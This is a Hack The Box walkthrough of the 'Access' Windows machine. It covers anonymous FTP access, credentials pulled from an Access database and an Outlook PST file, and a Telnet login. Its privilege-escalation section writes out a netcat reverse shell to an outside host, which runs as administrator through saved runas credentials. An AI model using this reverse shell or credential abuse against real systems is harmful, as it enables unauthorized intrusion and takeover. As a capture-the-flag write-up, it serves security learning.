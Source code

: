 ```yaml
---
title: "Access Walkthrough(Hack The Box)"
date: 2025-04-01
draft: false
description: "A brief walkthrough of Access box from Hack the box"
tags: ["Easy", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
 
---
```

## Reconnaissance
- On the initial Nmap scan I can see interesting ports open which are FTP, Telnet and a http port(80) 
![Pasted image 20241216220450.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216220450.png?raw=true)
- Quickly I checked for anonymous login and it seems like it was enabled. Which was interesting.
- While at that I also discovered that home page mentions `LON-MC6` which leads to `MS09-042` a vulnerability in Telnet

{{< badge >}} Definition {{< /badge >}}
This security update resolves a publicly disclosed vulnerability in the Microsoft Telnet service. The vulnerability could allow an attacker to obtain credentials and then use them to log back into affected systems. The attacker would then acquire user rights on a system identical to the user rights of the logged-on user. This scenario could ultimately result in remote code execution on affected systems. An attacker who successfully exploited this vulnerability could install programs; view, change, or delete data; or create new accounts with full user rights. Users whose accounts are configured to have fewer user rights on the system could be less impacted than users who operate with administrative user rights.

- Anyway when I try to login FTP, and it worked but after that I can't access any directories it's simply giving timeouts. Which was frustrating
![frustrating](https://media.giphy.com/media/3oEhmI2ggePqhmHoE8/giphy.gif?cid=790b76110k8nd7mxkyobs68ecd2qo6ct0xsok5yl1zy1q2li&ep=v1_gifs_search&rid=giphy.gif&ct=giving)
- After multiple tries atlast I was able to access the files in FTP.

## Enumeration

### Analyzing `backup.mdb`
- While enumerating the directories I found two files interesting one was an db file - `backup.mdb` 
```
> file backup.mdb 
backup.mdb: Microsoft Access Database
```
- To see the contents of the database I installed a tool `sudo apt install mdbtools`
- I can list all the tables using this coomand
```bash
mdb-tables backup.mdb
```
- To get the data from a table I could use this command
```bash
mdb-export backup.mdb <table-name>
```
- From `auth_user` table I got a username and password
```
> mdb-export backup.mdb auth_user
<SNIP>
27,"engineer","access4u@security",1,"02/24/18 1:54:36",26,
<SNIP>
```
![one-down](https://media1.tenor.com/m/VaUHmQW1SNEAAAAd/one-down-saanvi-bahl.gif)

## Exploitation

### Analyzing `Access Control.zip`
- The other file was a compressed zip file - `Access Control.zip`.
- I used this password `access4u@security` for the zip file and extracted it's contents
```bash
7z x Access Control.zip
```
- It had only one file called `Access Control.pst`. I can see that this is a outlook mail file.
- So I used a online `PST` opener and read it's contents
- To keep it simple, It had password for another account. The message reads...
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```
- This username `security` and the password `4Cc3ssC0ntr0ller` works for telnet. So I logged in as user `security`
- Then I got the {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241216231714.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216231714.png?raw=true)

## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use `runas` for running as something if appropriate constraints are valid. For an example `runas` is similar to `sudo` for windows if not the same.
- Here in this case we got saved creds so first lets transfer `nc.exe` to the target machine
- Then I used this command to save it to a bat file
```bash
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with `runas` command with saved creds for the user `administrator`
```bash
runas /user:administrator /savecred c:\users\security\shell.bat
```
- This above command will use the saved password for the user `Administrator` and run the malicious `bat` file as `Administrator`
- I got access as administrator in my shell
- I got {{< keyword >}} Root access {{< /keyword >}}
![Pasted image 20241216233210.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216233210.png?raw=true)

## Summary
The Access machine from Hack The Box was an easy Windows-based challenge involving FTP access, database extraction, and privilege escalation. Initial enumeration revealed open FTP, Telnet, and HTTP ports, with anonymous FTP login enabled. A Microsoft Access database (backup.mdb) contained credentials, which unlocked a protected ZIP file leading to an Outlook PST file with another set of credentials. Using Telnet, I logged in as security and retrieved the user flag. Privilege escalation was achieved by leveraging stored credentials with cmdkey and runas, executing a Netcat reverse shell to gain administrator access and retrieve the root flag. The box was straightforward but engaging, with a mix of credential discovery and privilege escalation.

{{< typeit >}} This was a good and easy machine and thus short but bomb!, Next walkthrough would be Sightless so be sure to check it out. Bye!. {{< /typeit >}}
![bye](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOGpxY2VveXNsY3N5cmd0cDhydXNva3I4b3RkMW4yN3ZlanV6MWxxcSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/1Q6K09gcxYWcUxxraT/giphy.gif)
